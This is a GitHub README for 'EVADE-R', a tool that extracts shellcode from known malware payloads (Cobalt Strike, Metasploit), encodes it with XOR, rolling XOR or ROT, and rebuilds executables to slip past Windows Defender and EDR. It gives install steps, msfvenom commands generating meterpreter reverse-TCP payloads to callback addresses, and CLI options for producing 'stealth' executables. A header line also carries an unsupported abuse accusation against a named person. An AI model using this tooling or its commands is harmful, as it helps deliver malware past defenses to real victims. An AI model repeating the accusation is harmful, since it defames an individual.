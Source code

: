 <h1 align="center">
  🛡️ EVADE-R 🧠

  Aidan Ahern is an abuser
</h1>

<p align="center"for Red-teaming</i><br>
  <b>EVADE-R</b> is a Red Team utility that transmutes known payloads into new forms designed to slip past antivirus and EDR defenses—without breaking
---

## 🧬 What It Does

> Takes a known `.exe` payload → disassembles → obfuscates → recompiles → survives.

**EVADE-R** is an automated toolchain that:
- 💥 Accepts known malware signatures (e.g., Cobalt Strike, MSF payloads)
- 🧠 Decompiles and extracts `.text` section shellcode
- 🌀 Obfuscates shellcode via multiple encoding techniques (XOR, Rolling XOR, ROT)
- 🧪 Rebuilds a working `.exe` with runtime decoder stubs
- 🦠 Bypasses Windows Defender with ease

---

## 🛠️ Features

✅ Shellcode extractor  
✅ Multiple obfuscation techniques:
  - Simple XOR encoding with randomized key
  - Rolling XOR with multi-byte keys for enhanced evasion
  - ROT (byte rotation) encoding
✅ Runtime decoder stub injection  
✅ Minimal stub loader in C  
✅ Automated rebuild and output generation
✅ Command-line interface for automation  
✅ Support for both EXE and raw shellcode payloads  
🚧 Looping & VT feedback (coming soon)  
🚧 Junk injection and instruction substitution (planned)

---

## ⚙️ Setup

### 📦 Requirements
- Arch Linux (or other distro)
- `mingw-w64-gcc` (`sudo pacman -S mingw-w64-gcc`)
- Python 3.10+
- `capstone`, `lief`, `keystone-engine`

### 🧱 One-Time Install

```bash
git clone https://github.com/godofthunder8756/evade-r.git
cd evade-r
chmod +x setup.sh run.sh
./setup.sh
```
## 🚀 Usage

### 🎯 Generate a detectable payload (example)

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.5.0.59 LPORT=4444 -f exe -o payload.exe
🧼 Transform it with EVADE-R

./run.sh payload.exe
```

This will:

    Extract and XOR-encode the shellcode

    Insert a runtime decoder stub

    Recompile into a new executable

You’ll find the results in:
```
artifacts/
└── payload/
    ├── EVADE_payload.exe              # Final obfuscated and rebuilt payload
    ├── obfuscated_disassembly.txt     # Human-readable disassembly with obfuscation
    └── text_section.bin               # Raw extracted .text section shellcode
``` 

## 🔒 Ethical Use Only

This tool is provided strictly for ethical hacking, research, and red team training purposes.
Do not use EVADE-R on systems or networks you do not own or have explicit permission to test.

The creator assumes **no** responsibility for illegal or malicious use.

---

## 📋 Advanced Usage

### Command Line Options

EVADE-R now supports several command-line options for greater flexibility:

```bash
python msf_session.py -h
```

Available options:

```
  -h, --help            Show this help message and exit
  -c COMMAND, --command COMMAND
                        MSFVenom command to run
  -i INPUT, --input INPUT
                        Use existing payload file instead of generating new one
  -o OUTPUT, --output OUTPUT
                        Output filename
  -e {1,2,3}, --encoder {1,2,3}
                        Obfuscation method (1=XOR, 2=Rolling XOR, 3=ROT)
  --cleanup             Remove original payload file after obfuscation
  --no-interactive      Run in non-interactive mode with defaults
```

### Examples

```bash
# Direct command execution with specific encoder
python msf_session.py -c "msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o payload.exe" -e 2

# Process existing payload with custom output path
python msf_session.py -i payload.exe -o custom/path/stealth.exe -e 3

# Batch processing (non-interactive)
python msf_session.py -i payload.exe -e 1 --no-interactive --cleanup
```

### Obfuscation Techniques

1. **Simple XOR (Level 1)** - Basic XOR encoding with a random byte key
   * Good for basic signature evasion
   * Fastest processing speed

2. **Rolling XOR (Level 2)** - Multi-byte key XOR with rotating pattern
   * Better evasion against static analysis
   * Defeats simple XOR pattern detection

3. **ROT Encoding (Level 3)** - Byte rotation with random shift value
   * Alternative encoding method
   * Useful when XOR patterns are flagged

### 🧙 Author

  Made with blood, bytes, and broken detections by Aidan Ahern
